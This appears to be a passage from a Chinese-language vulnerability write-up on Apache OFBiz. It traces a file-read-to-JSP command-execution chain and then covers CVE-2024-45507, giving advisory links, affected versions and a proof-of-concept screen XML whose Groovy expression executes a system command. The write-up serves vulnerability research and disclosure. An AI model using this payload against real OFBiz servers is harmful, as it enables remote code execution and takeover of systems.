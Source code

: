 dataFileIsUrl 和definitionIsUrl 为true，表示文件地址为URL格式，所以 dataFileUrl 和 definitionUrl 分别为数据文件和定义文件的URL对象。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/kAeFn7TN57OXibkW66BxTCXic1ppC2YfSFQnvl95I0VXKZ1TBiaSDCibLez52DmxcE6ZiaYG7D1xycAgf6ThQWYj6Ng/640?wx_fmt=png&from=appmsg "")  
  
跟进 ModelDataFileReader.getModelDataFileReader()，要 new 一个 ModelDataFileReader 对象，在 createModelDataFiles() 中去读取并解析远程的xml文件，返回 ModelDataFileReader 对象，并从中获取数据文件名称。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/kAeFn7TN57OXibkW66BxTCXic1ppC2YfSF6uF7yVnVNPo9Ik321ia7sF1UG3dt3QmspSODuakfGK8IU7oZ05ndMwA/640?wx_fmt=png&from=appmsg "")  
  
接着跟进 DataFile.readFile()，同样调用了 ModelDataFileReader.getModelDataFileReader()，从中获取与 dataFileName 对应的 ModelDataFile 对象，包装成 DataFile 对象返回，其中包含了数据文件的结构信息。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/kAeFn7TN57OXibkW66BxTCXic1ppC2YfSFqOaTj7ficYgIX8j2naIHIKsniaVESmQTxebYbzYu7iaUoS7kjDibNet1dA/640?wx_fmt=png&from=appmsg "")  
  
然后调用 dataFile.readDataFile(fileUrl)，逐行读取远程数据文件的内容，以键值对的形式保存到 DataFile 对象的实体字段中。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/kAeFn7TN57OXibkW66BxTCXic1ppC2YfSFBxe87NeicyZzJrAIrxhzrpT0XOHRt2XW7nHSTG1lXiaEmoAwoBOjCqNw/640?wx_fmt=png&from=appmsg "")  
  
最后就是调用 dataFile.writeDataFile(dataFileSave)，将 DataFile 对象中保存的数据文件内容写入到指定的文件中。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/kAeFn7TN57OXibkW66BxTCXic1ppC2YfSFESy6Ja4xDSDndo4ZKiav2UwED9mpIddNicpxuH95WcyicjVteKficmc6YA/640?wx_fmt=png&from=appmsg "")  
  
当从前端访问该 jsp 文件时，就会解析内容，实现命令执行。      
## 3. CVE-2024-45507    
### 3-1. 前言    
  
**官方公告：**  
  
https://issues.apache.org/jira/browse/OFBIZ-13132  
  
https://lists.apache.org/thread/o90dd9lbk1hh3t2557t2y2qvrh92p7wy  
  
**漏洞描述：**  
  
由于Apache OFBiz在从 Groovy 加载文件时对 URL 的验证不足，导致远程攻击者可以通过服务器端请求伪造的方式向任意系统发起请求，并可能导致远程代码执行，成功利用此漏洞可能允许攻击者完全控制受影响的系统，包括访问敏感数据、执行任意命令或进行进一步的网络攻击。  
  
**影响版本：**  
  
Apache OFBiz < 18.12.16  
### 3-2. 漏洞复现  
  
写一个屏幕定义文件 ssrfpoc.xml，value 设为一段 groovy 表达式来执行命令:  
```
<?xml version="1.0" encoding="UTF-8"?>
<screens xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
        xmlns="http://ofbiz.apache.org/Widget-Screen" xsi:schemaLocation="http://ofbiz.apache.org/Widget-Screen http://ofbiz.apache.org/dtds/widget-screen.xsd">

    <screen name="StatsDecorator">
        <section>
            <actions>
                <set field="headerItem" value="${groovy:throw new Exception('cmd /c start calc'.execute().text);}"/>
                <entity-one entity-name="FinAccount" value-field="finAccount"/>
            </actions>
        </section>
    </screen>

</screens>
```  
  